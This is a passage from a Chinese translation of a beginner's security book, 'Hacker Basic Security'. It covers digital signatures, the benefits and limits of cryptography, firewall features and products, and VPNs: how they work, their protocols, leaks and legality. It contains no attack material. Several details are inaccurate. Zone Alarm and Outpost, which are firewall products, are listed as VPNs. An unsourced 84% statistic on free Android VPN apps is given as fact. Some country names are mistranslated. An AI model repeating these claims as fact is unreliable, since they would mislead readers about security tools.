- 通常，用于加密解密过程的密钥与签名和验证过程中使用的密钥不同。签名密钥是私钥，而验证密钥是公钥
- 签名者在生成数据哈希之前向哈希函数提供数据
- 签名密钥和哈希值随后被发送签名算法，该算法根据给定的哈希生成数字签名。此外，签名在发送给验证者之前被附加到信息之后
- 验证者随后将验证密钥和数字签名输入验证算法，算法生成某些值作为输出
- 此外，验证者从接收到的数据运行相同的哈希函数以产生哈希值
- 为了确定数字签名是否有效，验证者随后将验证算法的输出与哈希值进行比较
- 数字数字签名的重要性

在我们拥有的所有加密原语中，通过公钥加密实现的数字签名是为这个世界提供信息安全最有用且最重要的工具。除了阻碍消息复制的能力外，它进一步提供了数据完整性和消息身份验证。让我们来看看数字签名在信息安全中起着的重要作用。

- **数据完整性** – 假设攻击者可以访问信息并在接收端更改任何内容；数字签名验证将失败。这是因为验证算法的输出与被修改后的信息的哈希将不匹配。因此，接收者可以安全地拒绝消息，并引用数据完整性被违反。
- **消息身份验证** – 一旦验证者通过发送者的公钥验证了数字签名，验证者就可以确信拥有等效私钥的发送者创建了签名。因此，密钥位于发送者和接收者之间，不涉及任何第三方。
- **不可否认性** – 基于除签名者外没有其他人拥有签名密钥的假设，发送者可以在一组数据上生成唯一的签名。借此，如果未来出现任何问题，接收者将拥有当前数据的证据以及数字签名。

### 信息安全中密码学的益处、挑战和未来

总之，在本章中，探索密码学的益处及其挑战非常重要。目前，我们以字节和比特的数字形式与信息相互连接。相关的关键信息必须免受罪犯的侵害。它们必须通过各种通信通道以数字格式进行存储、处理和传输。考虑到信息在国家安全中起着重要作用，入侵者或攻击者针对任何开放的通信通道和计算机系统，以中断关键信息的流动或从无辜用户处窃取敏感信息。

然而，随着技术的出现，各种加密技术已经成为确保这些网络犯罪分子的恶意目标不仅被挫败，而且确保只有授权用户可以访问这些信息。话不多说，让我们来看看加密在信息安全中的益处、局限性和未来。

#### 密码学的益处

加密是信息安全的一个基本工具，没有人否认这一事实。然而，它为信息安全提供了四个基本益处。这些包括：

- **机密性** – 通过加密，我们可以保护各种信息免受未经授权的用户及其对这些信息的访问
- **身份验证** – 通过数字签名和 `MAC` 等各种加密技术，我们可以保护我们的信息免受伪造和欺骗
- **不可否认性** – 它提供了不可否认性服务，以防止由于否认发送消息而可能引起的争议
- **数据完整性** – 密码学的哈希函数有助于让用户确保信息的数据完整性

#### 密码学的缺点

尽管加密在信息安全行业被广泛接受，它确实存在某些缺点，影响了信息的有效使用。这些问题包括：

- 即使是合法用户在决策时期难以访问真实的加密数字签名信息。入侵者可以攻击或使计算机系统或网络失效
- 在资金和时间方面，加密的高成本是信息安全面临的一个主要问题
- 它无法防止由于系统、程序和协议设计不当而产生的威胁和漏洞。


技术将不断进步，这带来了椭圆曲线密码学；尽管它有自己的优缺点，但这些尚未被完全理解。尽管如此，椭圆曲线密码学允许用户用更短的时间完成加密过程，从而能够在相同的安全范围内传输大量数据。虽然椭圆曲线密码学仍然很新，但在被用于私人、商业和政府用途之前，需要对其安全性进行测试和证明。

另一个新现象是量子计算。现代计算机的数据存储在比特中，而量子计算机通过多个状态的量子叠加来存储数据。有迹表明，现代密码学将探索更困难的计算问题，或者为目前呈现的目标制定新的存储策略。

# 第 8 章：防火墙

## 引言

如果你询问任何网络安全专家互联网是否是一个可怕的地方，10 个人中会有 9 个人同意。黑客或网络犯罪分子有能力隐藏自己的身份，试图入侵他人的计算机以获取个人信息，并以此获取私利。

更复杂的是，假设你的操作系统或软件存在未被修复的安全漏洞，这可能导致有人在你不察觉的情况下黑入你的计算机。在这种情况下你会怎么办？这意味着你必须停止使用互联网吗？有没有办法可以保护自己免受这种未经授权的隐私入侵？

令人惊讶的是，你可以迅速采取行动来保护自己。通过防火墙，你可以保护自己免受任何外部入侵。以前，防火墙是“香销商品”，只有大公司使用，因为它们是昂贵的硬件。在那个时代，并没有很多人使用互联网。然而，即使他们使用了，也是拨号连接，速度并不快。正因如此，大多数黑客的目标都是具有大带宽的公司。

今天，几乎每个人都通过廉价且快速的网速连接互联网。黑客将目标扩展到了大公司和家庭用户，尤其是那些安全措施不当的用户。然而，在进一步之前，了解防火墙包含的内容及其独特特征是非常关重要的。

## 什么是防火墙？

防火墙可以是软件应用程序或硬件设备，它充当你的互联网和计算机之间的保镖。它屏蔽每一项你并未请求访问你计算机的“互联网流量”。虽然这是一个简单的比喻，但正是防火墙的作用。简单来说，假设你访问了 `xyz` 网站，防火墙将允许来自 `xyz` 网站的流量访问你的计算机。然而，如果你没有请求访问 `xyz` 网站，而该网站现在向你的系统发送流量，防火墙将不允许其访问你的计算机。尽管如此，这些表现出的特征是可以改变的。

当我防火墙可以是软件应用程序或硬件设备时，不要混淆；区别在于：硬件防火墙设备位于你的互联网连接内部，另一部分连接到你的计算机。大多数防火墙内置集线器，允许你连接多台计算机以共享单一互联网连接。

防火墙使用名为 `Network Address Translation`（网络地址转换）的技术为连接到它的所有计算机提供所需的保护。受保护的计算机通过私有 IP 地址执行这种保护，这些地址最初无法通过互联网访问。此外，防火墙会将这些内部 IP 地址转换为单个公共 IP 地址，然后分配给你的防火墙。通过这样，你的硬件防火墙可以接受每个入站请求，随后将其转发到你的内部计算机请求。

另一方面，个人防火墙是安装在你想要保护的计算机上的软件。该软件的作用是过滤入站和出站流量，只允许亲自请求的数据。与硬件防火墙不同，个人防火墙功能更多，尽管它们缺乏在单一网络上与各种计算机共享互联网连接的优点。

也许你正在想，哪种最适合你的保护？嗯，这个决定取决于各种因素。然而，如果你只想保护单台计算机，最佳选择是个人防火墙；如果你想保护多台计算机，那么最好选择硬件防火墙。此外，硬件防火墙在保护多台计算机时更具性价比。你也可以结合这两种设备来保护你的计算机。你应该考虑这一点，因为保护你的信息可能是一个好主意，特别是当你寻求额外的安全级别时。

## 防火墙的重要特征

在选择特定的防火墙使用时，必须特别关注它们的特征。这对于你的计算机如何防止受到外部访问会产生巨大影响。虽然这些特征因人而异，但我总结了考虑购买防火墙时需要检查的重要特征。尽管如此，在安全性方面，你的重点应该放在应用程序保护、隐身模式、通知、入站和出站过滤等特征上。让我们逐个查看每个特征，让你了解它们有多重要。

### 入站和出站过滤

这项特征独特在于有助于确定允许或禁止的信息。防火墙的主要功能是根据创建的标准或规则允许和丢弃信息。它执行这项任务来处理你所有的安全问题。大多数人认为入站过滤是防火墙的主要功能，但他们错了。入站过滤是过滤指向你计算机的入数据的过程。

### 隐身模式

重要的是，你的防火墙不能仅仅阻止请求到达计算机。它还必须看起来就像在互联网上不存在。当你处于隐身模式时，你的计算机虽然连接到互联网但无法被检测到。今天，黑客有能力通过特殊数据探测计算机来检测特定计算机是否在互联网上。然而，如果你处于隐身模式，防火墙不会将此类信息返回给黑客，从而让你看起来像是离线状态。因此，黑客将停止将你的计算机的目标，因为对他们来说你是离线的。

### 隐私保护

保护隐私至关重要，你不会为了任何事情而危及它。现在的大多数防火墙都有能力阻止广告软件、劫持程序和间谍软件访问你的计算机。隐私保护功能让你能够保护计算机免受任何感染，特别是那些暴露用户隐私信息的软件。

### 应用程序完整性

此特征允许防火墙监控计算机上文件是否存在修改问题或这些文件是如何启动的。一旦防火墙检测到任何变化，它会通知用户并拒绝应用程序运行或向互联网传输数据。大多数时候，这些文件修改看起来可能像升级；但恶意程序可能触发了这种修改。

### 入侵检测


罪犯、入侵者或黑客会使用各种手段来劫持你的计算机安全。然而，入侵检测功能会扫描所有入站数据，以识别已知方法的特征码。此外，当它识别出任何此类攻击时，它会通知你。有趣的是，通过防火墙，你可以获知黑客或入侵者想要黑入你计算机的方法。

### 通知
通过此功能，你可以了解防火墙正在运行的特定活动，因为它有多种方式向你通知任何可能的渗透或入侵。

## 流行的防火墙
由于网络空间中广泛存在的威胁，市场充斥着各种类型的防火墙。以下是一些你可以尝试的防火墙：

-   Zone Alarm
-   Outpost
-   Emsisoft Armor

### 商业防火墙
-   Zone Alarm Pro
-   Outpost Pro
-   McAfee

### 硬件防火墙
-   NETGEAR
-   Linksys
-   Belkin

## 结论
使用防火墙来保护你的计算机信息是至关重要的。通过防火墙，你可以保护免受黑客和病毒的侵害。当你使用防火墙时，你可以安全地处理你的信息。尽管防火墙可能让你感到复杂，但只要了解如何使用它们，你就能保护自己的隐私。

# 第 9 章：虚拟专用网络

## 引言
由于持续的隐私问题和安全威胁，VPN 的出现是不可忽视的。对于第一次使用 VPN 的人来说，它可能看起来复杂，但我们将在文中解释其运作方式。VPN 也被称为私有网络，它可以帮助你保护在线信息免被黑客利用。为了保护你的隐私，你可以使用 VPN。以下是一些常用的 VPN：

-   Zone Alarm
-   Outpost
-   Free VPN（免费 VPN）

### 什么是 VPN？
VPN 是虚拟专用网络（Virtual Private Network）的缩写，它是一种让你安全地访问互联网的服务。此外，通过这种方式，它可以监控你的在线活动并保护你的信息。

在深入研究之前，我想让你了解关于 VPN 的一些基本术语：

-   VPN Client（客户端）：代表在你的设备上运行的软件。
-   VPN Server（服务器）：代表在互联网上提供加密连接的实体。
-   VPN Protocol（协议）：代表你连接到 VPN 的方法。
-   VPN Service（服务）：代表提供此类服务的机构。

### VPN 是如何工作的？
当你拥有了强大的基础后，是时候深入了解 VPN 的工作原理了。为了防止黑客或网络犯罪分子，VPN 通过加密你的计算机系统与服务器之间的连接来实现。这种加密连接是一个安全的隧道，可以让你自由地访问互联网。例如，即使你身处美国，也可以通过 VPN 看起来像是在中国。VPN 服务器会保护你的位置，并将其服务器位置作为你的位置。这为你提供了额外的安全性、高水平的匿名性以及不受限制的互联网访问。


然而，通过 `VPN`，你可以隐藏自己的真实位置并使用 `VPN` 服务器的位置，以保护自己免受日益增长的网络犯罪者的侵害。大多数 `VPN` 服务提供商在全球范围内维护服务器。这为用户提供了全球范围内无限制的连接和内容访问。在实现这些无限可能之前，你需要购买或订阅这些服务。一旦你购买并将软件下载到计算机或设备上，你就可以立即连接到任何地方。

## 为什么要使用 VPN 服务？

我知道这个问题终有一天会在你脑海中出现。为什么全球范围内使用 `VPN` 服务的人比以往任何时候都要多呢？嗯，这取决于他们的情况；然而，某些特定情况使得必须使用 `VPN` 服务。这些情况并不限于我在这里提到的。

- 在不泄露其位置或身份验证 IP 地址的情况下访问互联网。你可以将其归因于网络匿名性
- 获取某些网站和内容的无限制访问，这些内容对某些位置的人或国家设有限制
- 通过对互联网连接进行加密来提供额外的安全保障
- 通过轻松访问区域限制来绕过审查
- 防止网络管理员、第三方、政府机构和你的互联网服务提供商监视在线活动
- 保护并隐藏他们的敏感私人数据，包括照片、信用卡、银行密码和其他相关信息
- 在无需担心攻击或破解的情况下访问互联网
- 针对网络犯罪分子或黑客，特别是当他们在机场、酒店和咖啡馆使用公共 Wi-Fi 连接时
- 用于媒体流传输、P2P 下载和执行 Torrent 活动

你仍然对为你的互联网连接使用 `VPN` 有怀疑吗？到目前，你已经学习了 `VPN` 是什么、它是如何工作的、以及为什么要使用它们。消除关于使用时它们有多安全的疑虑至关重要。

## VPN 有多安全

今天，`VPN` 安全性在各种 IT 专业人士之间引发了激烈辩论。然而，需要注意的是，没有两个服务在安全性或提供的功能方面是完全相同的。鉴于此，只要是一个高质量的 `VPN`，你就可以放心地说它对你的互联网和信息安全来说是安全的。



尽管如此，这并不意味着没有缺陷。今天，市场上有 350 多种 `VPN`，考虑到我们在 Google Play 和 Apple 商店中的免费 `VPN` 应用，这个数量还在增加。遗憾的是，这些提供免费服务的 `VPN` 存在漏洞、缺陷，对你的个人信息构成巨大的安全和隐私威胁。然而，为了保护你的数据并让你免受信息和设备泄露的影响，选择高质量的 `VPN` 至关重要。

如果可能，你应该避免使用任何免费 `VPN` 应用或服务，因为最近的研究发现，约 84% 的用户数据泄露源于免费的 Android `VPN` 应用。尽管大多数人已经应该避免这些应用，但仍数以百万计在使用它们进行各种活动。如果你想认真对待自己的网络安全，有各种理由你应该避免使用免费 `VPN`。这些包括：

- 你让第三方访问你的敏感数据
- 流量泄露，例如 `DNS` 和 `IP` 地址泄露
- 带宽被盗
- 对你的活动进行隐藏跟踪
- 嵌入恶意软件，这在免费 `VPN` 中很常见
- 包括财务和身份盗窃的欺诈
- 浏览器劫持

重要的是，要警惕各种 `VPN` 诈骗，从虚假评论、虚假功能到终身 `VPN` 订阅。作为一个基本规则，当你订阅 `VPN` 服务时，你应该获得与付费用匹配的内容。

## VPN 服务合法吗？

这个问题的答案取决于你所处的哪个地区。在西方国家，只要是为了安全和在线隐私，使用 `VPN` 服务是合法的。事实上，大多数企业每天都会使用 `VPN`，我不认为这种情况很快会改变。


尽管如此，还有如沙特阿拉伯、阿拉伯酋联合国、伊朗、伊拉克、北朝鲜、阿曼、俄罗斯、白俄罗斯和土尔其曼等国家不允许使用 `VPN` 服务。这些国家反感此类服务的使用，因为它们赋予了用户访问互联网上所有内容的权限。

例如，在中国，政府加强了其“防火墙”，旨在封锁网站和 `VPN`。尽管如此，一些互联网用户使用某些 `VPN` 来解决这些问题。另一个禁止使用 `VPN` 措施失败的国家是俄罗斯，因为 `VPN` 流量被隐藏了，并且看起来像正常的 `HTTPS` 流量。

重要的是，全球各地的企业和个人例行使用 `VPN` 服务来确保其网络安全。因此，考虑到它们对个人和业务安全的重要性，不太可能会看到禁止使用 `VPN` 的情况。

如果显然 `VPN` 服务有助于保护或隐藏一个人的 `IP` 地址和位置，人们不能用它进行欺诈或坏活动吗？肯定的，可以！然而，`VPN` 就像钢铁一样，因为我们可以将其用于各种用途，包括交通、建筑和桥梁。此外，它的使用不仅限于这些，正如我们看到钢铁被制造坦克、枪支和炸弹一样，这些会伤害人类。将负面影响与其积极影响进行对比，我们难道要说禁钢会产生更好的结果吗？显然，不会，因为那样做是愚蠢且疯狂的。这就像因为轻微受伤而切掉自己的左腿一样。

`VPN` 和加密也是如此。企业、银行和涉及敏感数据使用的不同网站必须进行加密并用于日常用途。无论人们如何滥用这些加密和 `VPN` 工具，它们对于我们的网络安全和隐私都是必不可少的。

## 设置虚拟专用网络

你的网络安全和隐私是我的优先事项，这就是为什么在这一节中，我想向你介绍设置 `VPN` 的简单方法。然而，具体的设置说明可能会根据你使用的设备或系统而异。另一个因素是你可能使用的特定 `VPN` 服务。尽管如此，书中的安装程序是大多数 `VPN` 提供商针对大多数设备和操作系统推荐的方法。

以下是如何有效设置你的 `VPN` 的通用概述。

- 选择优质且可靠的 `VPN` 提供商
- 订阅其套餐，然后将软件下载到你的设备或操作系统
- 使用订阅后提供的凭据登录 `VPN`
- 连接到你选择的服务器，然后就可以享受你的在线隐私

以下平台 `iOS`、`Android`、`Mac OS` 和 `Windows` 用户可以选择其操作系统内置的 `VPN` 功能。这些系统没有使用 `OpenVPN`，而是使用 `IPSec/L2TP` 或 `IPSec/IKEv2` 协议。虽然这成本较低；但为了享受所有功能并避免在线数据泄露，建议为你的网络安全和隐私使用 `VPN` 服务。

## VPN 对在线隐私的作用


毫无疑问，`VPN` 同时提供了安全性和在线隐私保护。正如已经提到的，如果你的设备没有使用任何 `VPN`，你的互联网服务提供商或网络犯罪分子就可以轻松监控并记录你的在线活动。这可能包括你与朋友家人的社交媒体互动、你发表的评论、访问的网站、你的偏好等。今天，我们面临各种隐私侵权行为，政府或机构要求互联网服务提供商提供用户的浏览和数据活动日志。因此，使用 `VPN` 后，所有的互联网服务提供商看到的只是你在线，且设备连接到了 `VPN` 服务器。然而，你的数据是安全且加密的，第三方没有读取你信息的能力。

此外，`VPN` 在你的网络安全中的作用不容忽视，因为当你连接公共 `WiFi` 时，如果没有 `VPN`，就会暴露自己，成为黑客窃取你的信用卡、身份、密码和银行账户等的猎物。没有 `VPN`，你就会成为可能受攻击的目标。如果你想防止黑客和第三方并保护你的数据，你很有必要考虑使用 `VPN` 服务来加密你的数据。

# 关于匿名性问题

另一个需要澄清的问题是，因为你使用 `VPN` 来保障网络安全和隐私，并不意味着你是 100% 匿名的。事实上，考虑到包括 `NSA` 在内的监控机构，要实现 100% 的在线匿名是非常困难的。

这不应该阻止你使用 `VPN`，因为有很多步骤可以实施以帮助增加你的在线匿名性。这些步骤不仅限于使用最好的 `VPN` 服务。首先，你可以：

*   使用安全的浏览器，它可以保护你免受浏览器指纹识别
*   使用可靠的广告拦截器，因为某些广告可能伪装成跟踪你的在线活动、对你进行画像分析并在你不知情的情况下收集相关的个人信息

另一个需要考虑的问题是 `VPN` 日志。密切关注你的日志策略和日志非常重要，因为这涉及到你的在线隐私。使用 `VPN` 时，你必须理解这些日志有多种类型，包括：

*   `Connection logs`（连接日志）——这些包括时间、日期、`IP` 地址和连接数据。通常，连接数据对于改进 `VPN` 网络并可能处理任何用户挑战很有帮助。这里需要注意的是这些数据是如何被保护的，以及多久会被删除一次。
*   `Browsing log`（浏览日志）——它们几乎包含了你在在线上执行的所有活动，包括元数据、`IP` 地址、时间、浏览历史等。如果你在使用免费的 `VPN`，那么你不太可能维持这些日志的使用记录。
*   `No logs`（无日志）——大多数 `VPNs` 声称它们提供“无日志”。嗯，根据我的研究，只有少数 `VPN` 服务提供商对客户执行此功能。

# VPN 的性能与速度

当你使用 `VPN` 时，会发生许多活动。你的电脑或设备正在对数据包进行加密和解密，然后通过远处的 `VPN` 服务器进行路由。这些过程会消耗资源、时间，并影响你互联网的整体速度。

因此，在使用 `VPN` 时，为了获得最佳网速，连接到最适合你目的的 `VPN` 服务器至关重要。例如，如果你居住在 `Canada` 并想访问对 `United States` 个人开放的受封内容，最佳选择是选择位于 `New York` 的服务器而不是 `California` 的服务器。

检测优质 `VPN` 服务提供商的一种良好方法是通过你的网速，因为该服务不应该对你的网速产生任何影响。相反，如果你使用低质量的 `VPN` 服务，它会显著降低你的网速。导致这种情况的可能是不同用户导致的服务器过载。

尽管如此，你在帮助提高 `VPN` 速度方面也起着作用。确保选择性能良好的可靠 `VPN` 提供商。此外，你可以连接到拥堵程度较低的服务器。如果上述解决方案不起作用，你应该考虑更改你的 `VPN` 协议。此外，检查你的设备、你的网络和互联网服务提供商，因为这些都会影响你的网速。

# VPN 协议与加密

在使用 `VPN` 时，这些服务提供商提供了多种 `VPN` 协议。然而，了解 `VPN` 协议的原理非常重要。用非专业的术语来说，它是为了在 `VPN` 服务器和你的设备之间建立安全加密连接以传输数据的一系列指令。以下是当今常用的 `VPN` 协议：

*   `OpenVPN`：该协议是用于不同类型设备的最安全、最流行的协议之一。它是一个开源项目，为多种类型的身份验证方法而开发。如果你想要一种适用于各种设备的通用 `VPN` 协议，那么 `OpenVPN` 是完美的选择。此外，它还提供了强大的加密和卓越的性能。
*   `IKEv2/IPSec`：`IKEv2` 是 Internet Protocol Security with Internet Key Exchange Version 2 的缩写，与前者一样，是一种安全且快速的 `VPN` 协议。它在大多数操作系统中预配置，包括 `iOS`、`Mac OS` 和 `windows`。它在重新建立丢失的连接方面运行完美。该协议的缺点是它不是开源项目，因为它是由 `Microsoft` 和 `Cisco` 开发的。它是移动设备用户的完美选择。
*   `PPTP`：该协议是一种旧的 `VPN` 协议，内置在大多数操作系统中。也称为点点隧道协议，它有不同的安全漏洞，这导致它不被认为是安全的 `VPN` 活动。
*   `L2TP/IPSec`：这对任何人来说都是一个不错的协议选择。带有互联网协议的二层隧道协议比 `PPTP` 安全得多。此外，由于对数据包进行了双层封装，其速度并不快快。它内置在大多数操作系统中，并在移动设备中广泛使用。
*   `WireGuard`：该协议是行业的新宠，与以往现有的 `VPN` 协议相比，旨在获得更好的性能和改进的安全性。由于仍在活跃开发中，它尚未经过审核。然而，某些 `VPN` 提供商仅支持将其用于测试目的。

# iOS 和 Android 设备上的 VPN

到目前，你已经知道 `VPNs` 可以在 `iOS` 和 `Android` 设备上使用。然而，我想探索在这些设备上使用它们的三个不同方法。

*   通过自定义 VPN 应用：`VPN` 提供商为其 `iOS` 和 `Android` 用户提供自定义 `VPN` 应用，这些应用通常稳定、快速且具有不同的独特功能。
*   通过第三方 VPN 应用：你可以使用各种流行的免费第三方 `VPN` 应用（如 Android 版 `OpenVPN`）来保护你的在线隐私。
*   内置 VPN 功能：某些设备带有内置 `VPN` 功能。例如，`iOS` 设备具有 `IPSec/IKEv2`，而 `Android` 设备具有 `IPSec/L2TP` 功能。

尽管 `VPNs` 在 `Android` 和 `iOS` 设备上有了显著改进，但它们无法与计算机系统相比。这背后的原因是，与典型的 `VPN` 应用不同，普通的 `VPN` 更复杂，并且需要连接到加密、解密和外部服务器。这种情况与移动设备不同，移动设备上的连接可能不稳定（随着时间关闭和开启）。

# 在路由器上使用 VPN

你可以将 `VPN` 连接到路由器，但你必须确保该路由器支持 `VPN` 服务。通过支持 `VPN` 服务的良好路由器，你可以获得以下利益：


> 保护您的家庭网络免受网络犯罪分子、间谍活动、黑客或任何潜在攻击
> 轻松地保护自己，免受互联网服务提供商及任何监控的影响
> 您的移动设备无需安装软件即可从此类中受益



然而，正确配置设置的关键在于在选择合适的路由之前选择一个可靠的 VPN 提供商。一旦解决了这个问题，剩下的就水到渠成了。尽管如此，在选择 VPN 路由器时，处理能力是一个主要的考虑因素。

## VPN 泄露

尽管使用 VPN 服务对在线隐私和安全有很多好处，但 VPN 提供商面临的一个严峻问题是数据泄露。数据泄露有多种类型，主要目的是在您的设备或电脑使用 VPN 时破坏您的安全和隐私。以下是您在使用 VPN 服务时可能会遇到的 VPN 泄露：

*   > **IP 地址泄露** – 这通常意味着您的 `IP address` 已从 `VPN tunnel` 泄露，从而暴露了您的安全性和位置。根据您发现的时间，它可以是暂时的、短期的或持续的泄露。主要的魁祸首通常是使用 VPN 未正确阻止或支持 `IPv6` 的 `IPv6` 地址
*   > **DNS 泄露** – 这通常发生在 `DNS requests` 从 `VPN tunnel` 泄露且您的互联网提供商开始处理它时。它可能会暴露您的位置、互联网服务提供商 `IP address` 以及您的浏览历史。
*   > **WebRTC 泄露** – 此问题通常出现在使用 `Brave`、`Chrome`、`Firefox` 或任何使用 `WebRTC` API 的 chromium 基浏览器上。这种泄露会通过浏览器暴露您的 `IP address`。遗憾的是，无论您是否使用可靠或良好的 VPN，但是，您可以在浏览器中修复这些问题。

为了避免您的 `IP address`、浏览历史、位置或信息的任何泄露，定期测试您的 VPN 以检查是否存在可能影响您以后运行的泄露、问题或漏洞是非常关重要的。

## VPN 的未来

公平地说，我已经从 VPN 方面涉及了关于您网络隐私和安全的每一个可能角度。VPN 的前景是光明的，即使许多人并不是出于正确的原因考虑它。在线审查、企业跟踪和大规模监控将继续成为 VPN 高利用的驱动力。我们已经看到互联网服务提供商正在越来越多地封锁从种子到成人内容网站的各种网站访问。

此外，对用户隐私和监控的担忧正在迅速增加。例如，在以下国家：

*   > **英国** 被视为隐私保护最差的国家。电信公司和互联网服务提供商依法必须记录客户的短信、所有浏览历史和位置。这些数据在没有获得任何授权的情况下提供给英国政府机构。
*   > 在**美国**，服务提供商可以合法地记录浏览详情、短信并将信息卖给广告商。此外，他们有义务在需要时向监控机构提供相关信息。
*   > 在面临类似挑战的**澳大利亚**，政府实施了强制性数据留存计划，该计划要求电信运营商收集通话、短信和网络连接数据。

显然，在不使用可靠 VPN 的情况下进行各种在线活动将使您暴露在世界上的各种危险之中。因此，为了保护您的数据并阻止网络犯罪分子入侵您的隐私，在您的设备或电脑系统上安装 VPN 服务是不可妥协的。如果您想保护自己的数据，您的在线隐私和安全是首要任务。

## 结论

感谢您阅读《黑客基础安全》（Hacker Basic Security）到最后，希望它是有启发性的，并能够为您提供所有有效的安全方法以及管理网络风险的最佳方法。此外，我希望您已经学习并理解了带有攻击和防御策略工具的各种意识计划，以避免任何攻击。

考虑到网络空间面临的日益增长的网络和隐私问题，书中包含的信息是无价的。它包含了保护自己免受对网络或电脑的未经访问的所有内容。

我已经广泛讨论了与您的隐私和网络挑战相关的各种话题。让我概述一下我们到目前为止在书中中学到的内容。在第一章中，我强调了网络安全的基础和重要性以及网络安全的各种因素。事实上，这是您黑客基础安全的开始。

在高级情况下理解网络安全是非常重要的。正因如此，我探索了网络安全的各种类型、安全威胁以及保护您的网络免受病毒和恶意软件侵害的重要提示。除此之外，还有网络安全漏洞。配备这些数据安全漏洞涉及的内容、不同类型的数据安全漏洞以及相关的预防工具对于您的网络和电脑系统的安全至关重要。

此外，在第四章和第五章中，我向您介绍了黑客为您的系统制造混乱的基本手段。您将学习更多关于恶意软件和病毒的知识。此外，您将学习恶意软件的检测、预防和删除过程，以及防止电脑病毒。

您对密码学了解多少？如何反击黑客的攻击？第七章探讨了更多关于密码学、黑客的假设以及密码学的优势和未来。此外，您将学习如何使用`firewall` 以及在良好的防火墙中要寻找的各种重要功能。最后，在第九章中，您学习了虚拟专用网络。事实上，它包含了对 VPN 是什么的详细解释、它们在在线隐私中的作用以及它们的安全性。

确实，您应该得到点赞，因为您已经具备了有效监控在线安全的必要信息。我确信您可以通过防御和攻击策略来管理任何形式的网络风险，在与网络犯罪分子的斗争中保持领先。

最后，如果您发现这本书在任何方面对您有帮助，我们将非常感谢您在亚马逊上的评论！

